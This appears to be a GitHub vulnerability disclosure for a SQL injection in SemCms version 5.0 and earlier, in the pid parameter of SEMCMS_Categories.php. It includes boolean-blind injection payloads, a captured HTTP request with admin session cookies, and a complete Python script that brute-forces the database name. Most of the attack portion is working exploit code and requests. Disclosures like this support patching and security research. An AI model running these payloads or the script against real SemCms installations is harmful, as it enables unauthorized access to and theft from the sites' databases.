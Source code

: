 # SemCms <= 5.0 has a SQL Injection Vulnerability
##### Vulnerability Location: SEMCMS_Categories.php
##### Affected Range: SemCms <= 5.0
##### Vulnerability Cause: SemCms <= v5.0 was discovered to contain a SQL injection vulnerability.This allows an attacker to execute arbitrary code via the pid parameter in the SEMCMS_Categories.php component.
##### Vulnerability Impact: Obtain database access rights, and even DBA permissions.
##### Link:https://www.sem-cms.com/

# Vulnerability recurrence

After entering the background, click "Product Classification" : SEMCMS_Categories.php

![image](https://github.com/user-attachments/assets/42e4269c-2a60-4f90-99df-b146dab98e39)

Then select a product and click "Edit" :

![image](https://github.com/user-attachments/assets/3bd12aa9-c3b9-47f7-8963-5ac784bd9a49)

The following data packets were captured:

![image](https://github.com/user-attachments/assets/ca46f179-d0b8-463f-a955-148776286139)

![image](https://github.com/user-attachments/assets/735b5b5d-951d-409b-b58e-88942f68411c)

Among them, there is an SQL injection vulnerability in the pid parameter. Test using Boolean blinding:

![image](https://github.com/user-attachments/assets/fdaad18f-0b56-4f45-a3b7-b09ef07daf75)

Here, the first letter of the current database username has been determined. Since the locally set data name, username, and password are all semcms50, when the first character is s, the page echo is normal. However, when the first letter is changed to a, the page echo is abnormal.

![image](https://github.com/user-attachments/assets/4319d95b-89dd-4e76-9514-8fd1de8991e5)

payload, first determine the length of the database name: pid=if(length(database())>8,99,0)

![image](https://github.com/user-attachments/assets/d37fd00d-e750-43a4-8973-e2d16fe3936c)

![image](https://github.com/user-attachments/assets/e60b3a69-aea0-4373-83ac-dac718057541)

It can be seen that the length of the database name is greater than 7 but not greater than 8. Therefore, the length of the obtained database is 8. The next step is to determine the specific value of the database name.

![image](https://github.com/user-attachments/assets/1ed30880-ab06-4f58-a679-f61fab975684)

Finally, the database username is obtained as semcms50, and the yakit data packet:

```
GET /admin/SEMCMS_Categories.php?type=edit&pid=if(substr(database(),{{int(1-8)}},1)%20like%20"{{payload(word)}}",99,2)&lgid=1&types=p HTTP/1.1
Host: localhost:83
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:83/admin/SEMCMS_Categories.php?pid=1&lgid=1
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate, br, zstd
Sec-Fetch-Site: same-origin
Sec-Fetch-Dest: frame
sec-ch-ua-platform: "Windows"
sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
```

# Code Analysis
Line 34 of `SEMCMS_Categories.php`

![image](https://github.com/user-attachments/assets/c1d06b72-645a-433e-97eb-1fc9f4d7cad6)

The pid parameters were directly concatenated into the SQL statement, thereby causing an SQL injection vulnerability

# Vulnerability exploitation script
```
import requests
import string
import time
from urllib.parse import parse_qs, urlencode
# 需要通过页面的回显来修改判断的条件
# 需要后台路径
# 需要更新Cookie



# 发送请求
def send_request(url, headers):
    try:
        response = requests.get(
            url,
            headers=headers,
            timeout=10,
            verify=False
        )

        return response
    except Exception as e:
        print(f"请求失败: {e}")
        return None


# 爆破数据库名长度
def database_length():
    print("[*] 开始爆破数据库名长度...")
    for i in range(1,20):
        base_url = url + f'if(length(database())>{i},999,98)'
        resp = send_request(base_url,header).text
        if 'Lorem' in resp:
            print("数据库名长度为：" + str(i))
            return i 
            

# 爆破数据库名
def exploit_sql_injection(url, header, db_len):
    
    
    db_name = ""
    
    max_length = 32  # 假设数据库名最大长度
    
    # 字符集：小写字母、数字、常见符号
    charset = string.ascii_lowercase + string.digits + "-$@! "
    

    print("[*] 开始爆破数据库名...")

    for i in range(1,db_len+1):
        for j in charset:
            base_url = url + f'if(substr(database(),{i},1) like "{j}",98,999)'
            resp = send_request(base_url, header).text
            if 'Lorem' in resp:
                db_name += str(j)
                print(f"[+] 第{i}个位置的字符: '{j}' 匹配成功, 当前: {db_name}")
                break

    
    print(f"[*] 爆破完成! 数据库名: {db_name}")
    return db_name

if __name__ == "__main__":
    url = f"http://192.168.124.6:81/VvK4qw_Admin/SEMCMS_Categories.php?type=edit&lgid=1&types=p&pid="
    
    header = {
        "Cookie":"scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b"
    }

    db_len = database_length()

    if(db_len != 0):
        exploit_sql_injection(url, header,db_len)
    
```
